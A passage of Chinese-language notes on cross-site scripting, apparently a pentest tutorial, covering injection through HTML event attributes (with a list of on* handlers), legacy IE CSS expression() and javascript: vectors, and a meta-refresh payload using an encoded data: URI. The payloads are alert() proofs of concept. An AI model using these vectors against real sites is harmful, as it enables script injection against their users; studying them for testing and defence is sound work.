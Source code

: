         如果不行，则测试添加事件进行触发。（首先还是需要闭合）

        如：`<a href="test.com" onmouseover=alert(1)>ClickHere</a>`

        ​

     3. on*事件中

        插入合乎逻辑的JS代码即可。也可以使用伪协议。

        常见事件

        ```js
        onload 
        onclick
        onunload 
        onchange 
        onsubmit 
        onreset 
        onselect 
        onblur 
        onfocus 
        onabort 
        onkeydown 
        onkeypress 
        onkeyup 
        ondbclick 
        onmouseover 
        onmousemove 
        onmouseout 
        onmouseup 
        onforminput 
        onformchange 
        ondrag 
        ondrop
        ```

        ​

     4. style属性内及css代码之中IE可执行，并且在IE9以上被防御，不适合其他浏览器，基本已死。

        ```
        style="width:expression(js代码)"
        background-image:url('javascript:alert(2)')
        ```

   - 输出在meta标签

     ```javascript

     <meta http-equiv="refresh" content="0; url=data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E">
     ```

     还有一些猥琐的思路，就是通过给http-equiv设置set-cookie，进一步重新设置 cookie 来干一些猥琐的事情。



